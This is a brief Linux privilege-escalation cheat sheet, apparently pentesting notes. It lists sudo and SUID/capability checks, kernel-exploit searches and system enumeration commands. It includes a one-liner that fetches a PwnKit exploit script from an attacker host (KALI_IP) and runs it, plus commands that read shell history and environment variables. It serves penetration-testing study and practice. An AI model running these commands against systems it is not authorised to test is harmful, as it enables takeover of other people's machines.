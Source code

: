 # ***LHF***
## sudo -l
```shell
sudo -l
# then GTFObins
```
## setuid / capabilites
```shell
find / -perm -u=s -type f 2>/dev/null
/usr/sbin/getcap -r / 2>/dev/null
# then GTFObins
```
## pkexec (pwnkit/polkit)
```shell
sh -c "$(curl http://KALI_IP/linux/PwnKit.sh)"
```
## Kernel Vulns

```shell
# os version
cat /etc/issue
cat /etc/*-release

# kernel version and arch
uname -a
arch

#
# SEARCHSPLOIT using above output
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"

# ALSO CHECK SETUID BINS
```
# ***Manual***
## Quick Enum
```shell
# User #
whoami ; id
uname -a
sudo -l
cat ~/.bash_history
cat .bashrc
env

# OS #
# version
cat /etc/issue
cat /etc/*-release
# kernel 
uname -a
cat /proc/version
arch
# modules
lsmod
/usr/bin/modinfo module

```